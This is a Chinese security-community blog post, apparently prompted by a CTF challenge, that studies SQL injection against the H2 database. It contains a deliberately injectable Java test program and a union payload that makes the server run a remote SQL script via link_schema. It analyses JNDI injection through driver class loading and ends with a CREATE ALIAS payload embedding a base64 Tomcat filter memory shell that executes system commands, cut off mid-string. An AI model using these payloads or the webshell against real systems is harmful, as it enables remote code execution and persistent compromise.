# h2注入系统学习-先知社区

> **来源**: https://xz.aliyun.com/news/16831  
> **文章ID**: 16831

---

起初是在N1 Junior 2025 上面碰到一题，考点是h2的sql注入。由于之前没有见过，趁此机会系统学习一番


# 实验代码

```
public class H2Inject {
    public static void main(String[] args) throws Exception{

        JdbcDataSource dataSource = new JdbcDataSource();
        dataSource.setURL("jdbc:h2:mem:testdb;DB_CLOSE_DELAY=-1");
        dataSource.setUser("asd");
        dataSource.setPassword("");

        Connection connection = dataSource.getConnection();

        Statement statement = connection.createStatement();
        statement.execute("CREATE TABLE IF NOT EXISTS users (id INT PRIMARY KEY, username VARCHAR(255) NOT NULL, password VARCHAR(255) NOT NULL);");
        statement.executeUpdate("INSERT INTO users (id, username, password) VALUES (1, 'admin', 'admin');");

        String username = "admin";

        statement.executeQuery(String.format("select * from users where username = '%s' ",username));
        ResultSet resultSet = statement.getResultSet();

        boolean next = resultSet.next();
        while(next){
            String string1 = resultSet.getString(1);
            String string2 = resultSet.getString(2);
            String string3 = resultSet.getString(3);
            System.out.println(string1);
            System.out.println(string2);
            System.out.println(string3);
            next = resultSet.next();
        }
        
    }
}
```

# 读文件

翻阅官方文档：



只输入文件名一个参数，效果也是一样的。



# 写文件







文件是成功写入的，为什么会报错呢？

> Caused by: java.lang.NumberFormatException: For input string: "admin"

原因就是，获取结果的时候，先看第一行对应列是什么数据类型，决定了后面几行的数据类型。

file\_write的返回结果是数字，所以决定了该列是数字类型，所以查询出来的"admin"转换成数字的时候就报错。

不过有个地方不明白，为什么union select后面的结果会到第一行去？

# 发起jdbc连接



link\_schema是表函数，接在from的后面。

既然可以使用jdbc连接，那么就去连接h2数据库，并且设置INIT脚本，执行远程sql代码。

利用方式：

```
String username = "admin' union select 1,'1','1' from link_schema('TEST2', '', 'jdbc:h2:mem:testdb1;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ''http://127.0.0.1:8989/hello.sql''', 'sa', 'sa', 'PUBLIC')--";

```

这里存在引号嵌套，需要进行转义，有几个注意点：

1. h2中，单引号括起来的是字符串，双引号括起来的表示列名。
2. 单引号转义，不用反斜杠，而是用2个单引号来表示一个单引号



假设题目不出网，则可以先将sql脚本写入到目标机器，再发起jdbc连接。

# JNDI注入

我们分析link\_schema函数的底层代码实现

看LinkSchemaFunction的getValue方法

后续会进入JdbcUtils的getConnection，注意driver和url两个参数



一直跟进，到下面的位置。

有2处利用，第一处，如果url以jdbc:h2开头，则发起jdbc连接，否则对driver进行类加载



跟进loadUserClass



首先检查allowedClassNames，这里默认是\*，也就是所有类都allowed。



后面就是用Class.forName进行类加载。

类加载完成后，回到getConnection。


如果加载的类是驱动，则进行newInstance，如果是Context，则发起jndi连接。

那么直接加载javax.naming.InitialContext，打jndi。

可惜的是，高版本的h2依赖，添加了jndi限制，url必须以java:开头。

查看源码发现，2.1.x全版本都有限制，2.0.x < 2.0.206 无限制。



# 打内存马

继续发散， 假如题目不出网，无法弹shell，那就需要内存马，方便执行命令。

直接用Filter型内存马，首先写入到目标机器，再加载。

```
CREATE ALIAS EXEC AS '

    void e(String cmd) throws Exception{
        String evilClassBase64 = "yv66vgAAADQBTQoAIQC5CgC6ALsKALwAvQoAvAC+CgC6AL8KACEAwAoAwQC7BwDCCgAhAMMKAEgAxAoAIwDFCgDBAMYKAEkAxwoAyADJCgDIAMoHAMsIAH8KAEgAzAcAzQoAEwDOBwDPCADQBwDRCgAXAMcKABcA0ggA0woAFwDUBwDVCgAcAMcKABwA0goAHADWBwDXBwDYBwDZBwDaCgBIANsIAIoHANwKACYA3QoAFQDeCgAVAN8IAOALAOEA4gsA4wDkCADlCADmCgDnAOgKADQA6QgA6goANADrBwDsBwDtCADuCADvCgAzAPAIAPEIAPIHAPMKADMA9AoA9QD2CgA6APcIAPgKADoA+QoAOgD6CgA6APsKADoA/AoA/QD+CgD9AP8KAP0A/AsBAAEBBwECBwEDBwEEBwEFAQAVY3JlYXRlV2l0aENvbnN0cnVjdG9yAQBbKExqYXZhL2xhbmcvQ2xhc3M7TGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBABJjbGFzc1RvSW5zdGFudGlhdGUBABFMamF2YS9sYW5nL0NsYXNzOwEAEGNvbnN0cnVjdG9yQ2xhc3MBAAxjb25zQXJnVHlwZXMBABJbTGphdmEvbGFuZy9DbGFzczsBAAhjb25zQXJncwEAE1tMamF2YS9sYW5nL09iamVjdDsBAAdvYmpDb25zAQAfTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwEAAnNjAQAWTG9jYWxWYXJpYWJsZVR5cGVUYWJsZQEAFkxqYXZhL2xhbmcvQ2xhc3M8VFQ7PjsBABdMamF2YS9sYW5nL0NsYXNzPC1UVDs+OwEAFVtMamF2YS9sYW5nL0NsYXNzPCo+OwEAJUxqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjwtVFQ7PjsBACJMamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3I8Kj47AQAKRXhjZXB0aW9ucwEACVNpZ25hdHVyZQEAcDxUOkxqYXZhL2xhbmcvT2JqZWN0Oz4oTGphdmEvbGFuZy9DbGFzczxUVDs+O0xqYXZhL2xhbmcvQ2xhc3M8LVRUOz47W0xqYXZhL2xhbmcvQ2xhc3M8Kj47W0xqYXZhL2xhbmcvT2JqZWN0OylUVDsBAAhnZXRGaWVsZAEAPihMamF2YS9sYW5nL0NsYXNzO0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQACZXgBACBMamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uOwEABWNsYXp6AQAJZmllbGROYW1lAQASTGphdmEvbGFuZy9TdHJpbmc7AQAFZmllbGQBABlMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQAUTGphdmEvbGFuZy9DbGFzczwqPjsBAA1TdGFja01hcFRhYmxlBwDYBwDtBwEGBwDCAQBBKExqYXZhL2xhbmcvQ2xhc3M8Kj47TGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsBAA1nZXRGaWVsZFZhbHVlAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsBAANvYmoBABJMamF2YS9sYW5nL09iamVjdDsBAAlmaWVsZG5hbWUBAAFvAQAGPGluaXQ+AQADKClWAQAEdGhpcwEADUxGaWx0ZXJTaGVsbDsBABV3ZWJhcHBDbGFzc0xvYWRlckJhc2UBADJMb3JnL2FwYWNoZS9jYXRhbGluYS9sb2FkZXIvV2ViYXBwQ2xhc3NMb2FkZXJCYXNlOwEACXJlc291cmNlcwEAL0xvcmcvYXBhY2hlL2NhdGFsaW5hL3dlYnJlc291cmNlcy9TdGFuZGFyZFJvb3Q7AQAHY29udGV4dAEAKkxvcmcvYXBhY2hlL2NhdGFsaW5hL2NvcmUvU3RhbmRhcmRDb250ZXh0OwEACmZpbHRlck5hbWUBAAlmaWx0ZXJNYXABADFMb3JnL2FwYWNoZS90b21jYXQvdXRpbC9kZXNjcmlwdG9yL3dlYi9GaWx0ZXJNYXA7AQAJZmlsdGVyRGVmAQAxTG9yZy9hcGFjaGUvdG9tY2F0L3V0aWwvZGVzY3JpcHRvci93ZWIvRmlsdGVyRGVmOwEAF2FwcGxpY2F0aW9uRmlsdGVyQ29uZmlnAQAyTG9yZy9hcGFjaGUvY2F0YWxpbmEvY29yZS9BcHBsaWNhdGlvbkZpbHRlckNvbmZpZzsBAA1maWx0ZXJDb25maWdzAQATTGphdmEvdXRpbC9IYXNoTWFwOwEAWUxqYXZhL3V0aWwvSGFzaE1hcDxMamF2YS9sYW5nL1N0cmluZztMb3JnL2FwYWNoZS9jYXRhbGluYS9jb3JlL0FwcGxpY2F0aW9uRmlsdGVyQ29uZmlnOz47AQAIZG9GaWx0ZXIBAFsoTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7TGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlO0xqYXZheC9zZXJ2bGV0L0ZpbHRlckNoYWluOylWAQABcAEAGkxqYXZhL2xhbmcvUHJvY2Vzc0J1aWxkZXI7AQAGd3JpdGVyAQAVTGphdmEvaW8vUHJpbnRXcml0ZXI7AQABYwEAE0xqYXZhL3V0aWwvU2Nhbm5lcjsBAARhcmcwAQAHcmVxdWVzdAEAHkxqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0OwEACHJlc3BvbnNlAQAfTGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOwEABWNoYWluAQAbTGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47BwEHBwDsBwDzBwEDBwEIBwEJBwEKBwECBwELBwEMAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcBDQEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAEaW5pdAEAHyhMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7KVYBAAxmaWx0ZXJDb25maWcBABxMamF2YXgvc2VydmxldC9GaWx0ZXJDb25maWc7AQAHZGVzdHJveQEAClNvdXJjZUZpbGUBABBGaWx0ZXJTaGVsbC5qYXZhDAEOAQ8HARAMAREBEgcBEwwBFAEVDAEWARcMARgBGQwBGgEbBwEGAQAeamF2YS9sYW5nL05vU3VjaEZpZWxkRXhjZXB0aW9uDAEcAR0MAGMAZAwBHgEdDAEfASAMAHkAegcBIQwBIgEjDAEkASUBADBvcmcvYXBhY2hlL2NhdGFsaW5hL2xvYWRlci9XZWJhcHBDbGFzc0xvYWRlckJhc2UMAHMAdAEALW9yZy9hcGFjaGUvY2F0YWxpbmEvd2VicmVzb3VyY2VzL1N0YW5kYXJkUm9vdAwBJgEnAQAob3JnL2FwYWNoZS9jYXRhbGluYS9jb3JlL1N0YW5kYXJkQ29udGV4dAEABWZmZmZmAQAvb3JnL2FwYWNoZS90b21jYXQvdXRpbC9kZXNjcmlwdG9yL3dlYi9GaWx0ZXJNYXAMASgBKQEAAi8qDAEqASkBAC9vcmcvYXBhY2hlL3RvbWNhdC91dGlsL2Rlc2NyaXB0b3Ivd2ViL0ZpbHRlckRlZgwBKwEsAQAwb3JnL2FwYWNoZS9jYXRhbGluYS9jb3JlL0FwcGxpY2F0aW9uRmlsdGVyQ29uZmlnAQAPamF2YS9sYW5nL0NsYXNzAQAbb3JnL2FwYWNoZS9jYXRhbGluYS9Db250ZXh0AQAQamF2YS9sYW5nL09iamVjdAwASwBMAQARamF2YS91dGlsL0hhc2hNYXAMAS0BLgwBLwEwDAExATIBAANjbWQHAQgMATMBNAcBCQwBNQE2AQAAAQAHb3MubmFtZQcBNwwBOAE0DAE5AToBAAN3aW4MATsBPAEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgEAEGphdmEvbGFuZy9TdHJpbmcBAAdjbWQuZXhlAQACL2MMAHkBPQEABy9iaW4vc2gBAAItYwEAEWphdmEvdXRpbC9TY2FubmVyDAE+AT8HAUAMAUEBQgwAeQFDAQACXEEMAUQBRQwBRgFHDAFIAToMAUkAegcBBwwBSgEpDAFLAHoHAQoMAI0BTAEAE2phdmEvbGFuZy9FeGNlcHRpb24BAAtGaWx0ZXJTaGVsbAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABRqYXZheC9zZXJ2bGV0L0ZpbHRlcgEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkAQATamF2YS9pby9QcmludFdyaXRlcgEAHGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3QBAB1qYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZQEAGWphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW4BABNqYXZhL2lvL0lPRXhjZXB0aW9uAQAeamF2YXgvc2VydmxldC9TZXJ2bGV0RXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAWZ2V0RGVjbGFyZWRDb25zdHJ1Y3RvcgEAMyhbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOwEAHWphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yAQANc2V0QWNjZXNzaWJsZQEABChaKVYBAB1zdW4vcmVmbGVjdC9SZWZsZWN0aW9uRmFjdG9yeQEAFGdldFJlZmxlY3Rpb25GYWN0b3J5AQAhKClMc3VuL3JlZmxlY3QvUmVmbGVjdGlvbkZhY3Rvcnk7AQAebmV3Q29uc3RydWN0b3JGb3JTZXJpYWxpemF0aW9uAQBRKExqYXZhL2xhbmcvQ2xhc3M7TGphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yOylMamF2YS9sYW5nL3JlZmxlY3QvQ29uc3RydWN0b3I7AQALbmV3SW5zdGFuY2UBACcoW0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBABBnZXREZWNsYXJlZEZpZWxkAQAtKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7AQANZ2V0U3VwZXJjbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBAAhnZXRDbGFzcwEAA2dldAEAJihMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAQamF2YS9sYW5nL1RocmVhZAEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsBAApnZXRDb250ZXh0AQAfKClMb3JnL2FwYWNoZS9jYXRhbGluYS9Db250ZXh0OwEADXNldEZpbHRlck5hbWUBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAA1hZGRVUkxQYXR0ZXJuAQAJc2V0RmlsdGVyAQAZKExqYXZheC9zZXJ2bGV0L0ZpbHRlcjspVgEAA3B1dAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAMYWRkRmlsdGVyRGVmAQA0KExvcmcvYXBhY2hlL3Rv